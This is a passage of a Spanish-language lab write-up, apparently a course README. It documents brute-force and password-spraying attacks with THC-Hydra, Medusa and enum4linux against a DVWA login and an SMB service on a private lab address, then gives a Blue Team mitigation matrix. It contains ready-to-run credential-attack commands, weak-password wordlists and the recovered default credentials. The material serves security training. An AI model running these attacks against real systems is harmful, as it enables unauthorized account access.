

---

### Paso 6: Ataque Automatizado con THC-Hydra
Para solventar las limitaciones de redirección de Medusa y realizar la auditoría con precisión quirúrgica, se utilizó la herramienta **THC-Hydra** con el módulo `http-post-form`:

```bash
hydra -L users.txt -P pass.txt 192.168.56.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed"
```

**Parámetros explicados:**
- `-L users.txt`: Evalúa todos los usuarios de la lista (enfoque *Black Box*).
- `-P pass.txt`: Evalúa todas las contraseñas de la lista.
- `192.168.56.101`: Dirección IP del servidor web objetivo.
- `http-post-form`: Módulo optimizado para formularios web vía solicitudes HTTP POST.
- `"/dvwa/login.php:..."`: Define el endpoint, los campos de sustitución dinámica (`^USER^`, `^PASS^`) y la condición de fallo (`F=Login failed`).

> **Resultado:** Hydra ejecutó las 16 combinaciones posibles en tan solo 2 segundos, identificando con total precisión el único par válido de credenciales:  
> **`login: admin` | `password: password`**



---

### Paso 7: Validación Práctica de Credenciales Obtenidas
Inicio de sesión manual en el portal web de DVWA con las credenciales descubiertas por Hydra:

- **Usuario:** `admin`
- **Contraseña:** `password`

> **Resultado:** Autenticación confirmada con éxito, otorgando acceso administrativo al panel interno de la aplicación.



---

## 📂 Escenario 3: Ataque en Cadena — Enumeración y Password Spraying en SMB (Puertos 139/445)

El protocolo SMB (*Server Message Block*) es ampliamente utilizado en entornos corporativos para compartir archivos e impresoras. Configuraciones permisivas (como sesiones nulas o enumeración anónima) permiten descubrir cuentas legítimas y ejecutar ataques de *Password Spraying* (pulverización de contraseñas débiles contra múltiples cuentas para evadir bloqueos por intentos fallidos).

---

### Paso 1: Enumeración de Cuentas y Recursos Compartidos (enum4linux)
Recolección de información sin alertar los mecanismos de autenticación mediante **enum4linux**, almacenando la salida completa con `tee`:

```bash
enum4linux -a 192.168.56.101 | tee enum4_output.txt
```
- `-a`: Ejecuta todas las rutinas de enumeración (usuarios, carpetas compartidas, políticas de contraseñas, grupos).
- `| tee enum4_output.txt`: Muestra los resultados en el terminal y guarda simultáneamente en un archivo de texto para análisis offline.




---

### Paso 2: Triaje y Análisis de Datos
Filtrado del archivo de registro mediante el comando `less` para aislar los nombres de usuario válidos:

```bash
less enum4_output.txt
```






---

### Paso 3: Creación de Wordlists Dirigidas para Password Spraying
Elaboración de diccionarios a partir de las cuentas identificadas (`user`, `msfadmin`, `service`) y contraseñas comunes:

```bash
# Lista de usuarios mapeados
echo -e "user\nmsfadmin\nservice" > smb_users.txt

# Lista de contraseñas para pulverización
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt

# Verificación de archivos
cat smb_users.txt
cat senhas_spray.txt
```



---

### Paso 4: Ataque con Medusa (Módulo smbnt)
Ejecución del ataque de pulverización automatizado mediante el módulo NTLM/SMB de Medusa:

```bash
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

**Parámetros explicados:**
- `-h 192.168.56.101`: Dirección IP del host objetivo.
- `-U smb_users.txt`: Lista de usuarios identificados en la fase de enumeración.
- `-P senhas_spray.txt`: Lista de contraseñas a evaluar.
- `-M smbnt`: Módulo de Medusa para autenticación SMB/NTLM.
- `-t 2`: Limita la ejecución a 2 hilos para mitigar el ruido en la red.
- `-T 50`: Control de temporización de paquetes para evitar saturar el servicio.

> **Resultado:** Identificación exitosa de las credenciales válidas para el servicio de red:  
> **`ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]`**



---

### Paso 5: Prueba Negativa y Validación Práctica con smbclient
Validación del resultado mediante dos comprobaciones con la herramienta nativa `smbclient`:
1. **Prueba Negativa (Fallo deliberado):** Intento de conexión con una contraseña incorrecta aleatoria, provocando el rechazo inmediato (`NT_STATUS_LOGON_FAILURE`).
2. **Prueba Positiva (Validación exitosa):** Conexión empleando las credenciales auditadas (`msfadmin:msfadmin`).

```bash
# Validación de credenciales y listado de recursos compartidos
smbclient -L //192.168.56.101 -U msfadmin
```

> **Resultado:** Listado autorizado de todos los recursos compartidos administrativos y carpetas de red del servidor (`IPC$`, `print$`, `opt`, etc.).



---

## 🛡️ Matriz Consolidada de Mitigación y Defensa en Profundidad (Blue Team)

Para neutralizar los vectores de ataque explorados en todos los escenarios (FTP, Web y SMB), se recomienda aplicar las siguientes defensas basadas en el principio de **Defensa en Profundidad (*Defense in Depth*)**:

### 1. Gobernanza Global de Identidad y Acceso
- **Autenticación Multifactor (MFA):** Implementación obligatoria de MFA en todas las interfaces de acceso internas y externas, neutralizando el impacto de contraseñas descubiertas por fuerza bruta.
- **Políticas Robustas de Contraseñas y Expiración:** Exigir contraseñas largas (mínimo de 12 a 16 caracteres) con combinación alfanumérica y caracteres especiales, verificadas automáticamente contra bases de datos de contraseñas filtradas.
- **Políticas Inteligentes de Bloqueo de Cuentas (Account Lockout):** Bloqueo temporal progresivo (ej.: 15 a 30 minutos) tras 3 a 5 intentos consecutivos erróneos, frenando ráfagas automatizadas sin provocar una denegación de servicio definitiva (*DoS*).

### 2. Monitoreo Activo y Detección con IA (SIEM / SOC)
- **Centralización de Registros y Análisis de Anomalías:** Envío sistemático de eventos de autenticación a un SIEM corporativo. El uso de algoritmos basados en Inteligencia Artificial / *Machine Learning* facilita detectar patrones de *Password Spraying* (una misma contraseña probada contra múltiples cuentas a intervalos regulares).
- **Respuesta Automatizada ante Incidentes:** Bloqueo dinámico en firewall de direcciones IP que muestren comportamientos de escaneo o ataques masivos de autenticación.

### 3. Hardening y Segmentación de Red
- **Aislamiento de Servicios Críticos:** Confinar protocolos sensibles (como SMB en puertos 139/445 y FTP) en *VLANs* administrativas restringidas, evitando su exposición hacia Internet o redes de invitados.
- **Desactivación de Protocolos Obsoletos:**
  - Descontinuar el uso de **FTP** en favor de **SFTP** (vía SSH) o **FTPS** (con cifrado TLS/SSL).
  - Deshabilitar versiones vulnerables como **SMBv1** y exigir firmas digitales obligatorias (*SMB Signing*) y cifrado nativo SMBv3.
- **Bloqueo de Enumeración Anónima (*Null Sessions*):** Configurar Samba/Windows para rechazar conexiones anónimas de invitados (`restrictanonymous = 2`), bloqueando herramientas como `enum4linux` para evitar la recolección de nombres de usuario.

### 4. Gobernanza y Auditorías Periódicas
- **Evaluación Rutinaria de Vulnerabilidades:** Realizar escaneos internos periódicos (*Vulnerability Assessment*) para detectar servicios huérfanos, puertos olvidados y credenciales por defecto antes de que lo hagan actores maliciosos.
- **Reducción de la Superficie de Ataque:** Desactivar o desinstalar cualquier servicio que no cumpla una función imprescindible para el negocio.

---

## 📚 Conclusión del Laboratorio

La ejecución de este laboratorio permitió experimentar el ciclo integral de una auditoría técnica de seguridad:
1. **Fase de Reconocimiento:** Detección de puertos abiertos con Nmap y enumeración automatizada de cuentas mediante enum4linux.
2. **Fase de Explotación Controlada:** Simulación de ataques de fuerza bruta directa y pulverización de credenciales contra FTP, Web y SMB utilizando Medusa y THC-Hydra.
3. **Fase de Validación y Pensamiento Crítico:** Diagnóstico práctico de limitaciones de herramientas, diferenciación de falsos positivos provocados por redirecciones HTTP 302 y validación con accesos legítimos.
4. **Fase de Remediación:** Elaboración de una estrategia defensiva en capas, demostrando que la seguridad eficaz se basa en la combinación armónica de controles técnicos, monitoreo continuo y concienciación.

---

## 🔗 Referencias

- [DIO - Digital Innovation One](https://dio.me)
- [Documentación Oficial de Medusa](http://foofus.net/goons/jmk/medusa/medusa.html)
